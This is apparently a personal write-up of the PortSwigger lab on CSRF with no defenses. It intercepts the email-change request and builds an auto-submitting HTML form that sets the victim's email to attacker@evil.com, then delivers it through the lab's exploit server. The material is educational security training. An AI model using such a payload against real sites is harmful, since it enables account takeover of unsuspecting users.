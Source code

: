 # CSRF vulnerability with no defenses

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-no-defenses), you'll learn: CSRF vulnerability with no defenses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221214234716.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221214234744.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221214234752.png)

In here, we can update our email address!

**Let's use Burp Suite to intercept the request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221214235015.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221214235052.png)

When we click the `Update email` button, it'll send a POST request to `/my-account/change-email` with the parameter `email`.

**However, there is no CSRF token to prevent other website to send the same request!**

**To exploit this CSRF vulnerbility, we can craft a web page that automatically send the same request!**

**Let's inspect how this website construct the form:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```

**Armed with above information, we can craft a form that perform the same request:**
```html
<html>
	<head>
		<title>CSRF-1</title>
	</head>
	<body>
		<form action="https://0a3700ea032ba1d8c2ef1284006800d3.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

**To host this page, I'll use python's module `http.server`:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/CSRF/CSRF-1]
└─# python3 -m http.server 80     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now, we can test it locally.

**If we go to `http://localhost/index.html`, it'll automatically send a POST request to `https://0a3700ea032ba1d8c2ef1284006800d3.web-security-academy.net/my-account/change-email` with the parameter `email`, and it's value is `attacker@evil.com`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215000245.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215000257.png)

It works, as we have the session cookie and that endpoint doesn't have any CSRF protections!!

**To change other users' email, we can use PortSwigger Lab's exploit server:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215001415.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215001503.png)

**Copy and paste our payload to `Body` and click `Store`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215001711.png)

**Finally, we can click the `Deliver exploit to victim` button:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215001751.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215001810.png)

And we successfully changed a user's email address!

# What we've learned:

1. CSRF vulnerability with no defenses